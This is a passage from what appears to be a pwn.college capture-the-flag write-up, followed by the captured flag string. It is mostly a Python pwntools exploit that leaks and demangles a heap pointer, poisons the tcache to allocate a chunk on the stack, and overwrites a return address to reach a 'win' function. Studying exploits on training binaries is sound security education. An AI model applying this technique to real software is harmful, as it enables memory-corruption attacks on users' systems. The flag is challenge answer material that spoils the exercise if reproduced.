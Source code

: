 ```python

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)

    puts(1)
    target.recvuntil(b"Data: ")
    pos = int.from_bytes(target.recvline().strip(), "little")

    puts(0)
    target.recvuntil(b"Data: ")
    mangled = int.from_bytes(target.recvline().strip(), "little")
    heap = demangle(pos, mangled)

    target.success(f"pos: {hex(pos)}")
    target.success(f"mangled: {hex(mangled)}")
    target.success(f"heap: {hex(heap)}")

    stack_mangled = mangle(pos, stack)
    scanf(0, flat(stack_mangled))

    raw_input("DEBUG")
    malloc(0, 0)
    malloc(0, 0)

    payload = flat(
        stack,
        ret,
    )
    scanf(0, payload)

    scanf(1, flat(elf.sym["win"]))
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{wMAyk806GbwvQXzo8CWgpFdlih0.dBTO0MDL5cTNxgzW}`]

# Level 17.1

## Information
